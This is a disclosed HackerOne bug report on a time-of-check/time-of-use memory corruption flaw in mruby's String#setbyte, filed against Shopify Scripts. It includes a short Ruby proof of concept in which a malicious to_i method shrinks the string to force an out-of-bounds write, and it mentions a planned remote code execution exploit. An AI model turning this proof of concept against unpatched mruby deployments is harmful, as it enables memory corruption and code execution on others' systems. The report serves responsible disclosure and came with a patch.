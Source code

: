 # TOCTTOU bug in mrb_str_setbyte leading the memory corruption

## Report Details
- **Report ID**: 181893
- **URL**: https://hackerone.com/reports/181893
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2016-11-13T09:43:49.735Z
- **Disclosed**: 2016-12-16T21:35:57.209Z

## Reporter
- **Username**: raydot
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
The String#setbyte function caches the length of the string before loading the function arguments. Loading function arguments through mrb_get_args can call into ruby code to run type conversion methods (to_i, to_s and the like). A malicious conversion method is able to force the string to be reallocated shorter so that the setbyte goes on to overwrite out of bounds memory.

Following is a POC that causes a native crash with under mruby on Mac OS X. I plan to follow up with a reliable RCE exploit against mruby-engine using this vulnerability in the next day or so.

```
$s = "9" + ("\n" * (1024*1024-1))
$k = []

class Tmp
    def to_i
        $k.push("a"*1024)
        $s.chomp! ''
        $s.succ!
        95
    end
end
tmp = Tmp.new
$s.setbyte(128, tmp)
puts $k[0]
```

Attached is a patch to mruby to resolve this issue.

## Attachments
- patch2.diff
